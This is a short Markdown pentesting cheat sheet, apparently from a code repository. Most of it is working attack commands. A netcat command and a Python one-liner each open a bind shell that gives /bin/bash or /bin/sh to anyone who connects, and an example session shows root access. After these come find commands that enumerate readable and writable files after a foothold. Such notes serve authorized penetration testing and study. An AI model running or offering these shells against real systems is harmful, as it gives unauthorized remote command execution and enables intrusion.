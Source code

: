 # Pentesting

## Open a netcat connection on the target machine
Run the following command on the target machine:
```
nc.traditional -l -p 12345 -e /bin/bash
```

Now you can connect to it by running the following command from your attack machine:
```
nc {target_machine_ip} 12345
```
Example:
```
$ nc 192.168.232.131 12345
whoami
root
```

## Open a bind shell
[Source](https://github.com/shelld3v/Python-shell-cheat-sheet)

Once you gain a foothold on the target machine you can run the following command to start a bind shell:
```
python3 -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",4444));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

## Monitor incoming pings
[Source](https://superuser.com/questions/348327/linux-how-to-monitor-incoming-pings)
```
sudo tcpdump ip proto \\icmp
```

## Find all files that can be read by the current user
```
find / -type f -readable 2>/dev/null
```

## Find all files and folders that can be read by the current user
```
find / -readable 2>/dev/null
```

## Find all files that can be written to by the current user
```
find / -type f -writable 2>/dev/null
```

## Find all files and folders that can be written to by the current user
```
find / -writable 2>/dev/null
```
